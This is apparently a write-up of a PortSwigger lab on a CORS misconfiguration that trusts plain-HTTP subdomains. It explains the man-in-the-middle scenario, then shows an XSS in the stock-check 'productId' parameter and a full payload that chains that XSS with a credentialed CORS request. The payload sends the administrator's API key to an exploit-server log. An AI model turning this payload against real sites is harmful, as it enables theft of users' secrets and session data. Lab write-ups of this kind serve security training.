 ## Lab Description: CORS vulnerability with trusted insecure protocols.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/c09efc2a-1f88-440f-83d0-a118a237eed2)


## Solution:

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:
```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```
The application responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
In this situation, an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. This attack involves the following steps:

The victim user makes any plain HTTP request.

The attacker injects a redirection to:
```
http://trusted-subdomain.vulnerable-website.com
```
The victim's browser follows the redirect.

The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to:
```
https://vulnerable-website.com
```
The victim's browser makes the CORS request, including the origin:
```
http://trusted-subdomain.vulnerable-website.com
```
The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.

The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.

This attack is effective even if the vulnerable website is otherwise robust in its usage of HTTPS, with no HTTP endpoint and all cookies flagged as secure.


When we give Origin: evil.com or Origin: null , we don't see any ACAO header in the response.

But when we give Origin : http://subdomain.lab-domain.com, we get the Access-Control-Allow-Origin in the response. [Note that we gave http instead of https]


![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/62f7fec3-7e2e-4cc9-8373-8b29570acce4)

So if we provide subdoamin of the website along with http insecure protocol, we are able to bypass the whitelist.

Finding an XSS -
In real life cases, if an attacker performs a MITM attack , then he can exploit the CORS configuration to compromise the victim's interaction with the application. But in this lab we can't perform MITM attacks.

So the other way around to steal Administrator's API keys is by exploiting an XSS vulnearbility.

When we click on checkstock, we are taken to a new tab to display the result.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a04ce8ee-af17-45b7-801b-9e3bf82c85ca)

If we enter a simple alert() script in productID parameter, we get a pop up which confirms that it is vulnerable to XSS.


![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/019d0a65-bc71-4bdd-b36d-4114b4098598)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/ccb7aa69-bccf-433e-9cd0-4f5b700e6c43)

Go to exploit server and enter the following XSS payload to steal the API key of admin.

      <script> document.location="http://stock.0a720027042deb43808f7670001f0067.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a720027042deb43808f7670001f0067.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ae200ca0459eb4d800375f301f000eb.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>

Deliver the exploit to victim & view AccessLog , there we will find the API key of admin in the URL portion.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8035fc90-a56c-46e5-a32c-ab5f32eae072)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/5ffef2aa-01fe-4b8f-b112-358ba6fead6c)
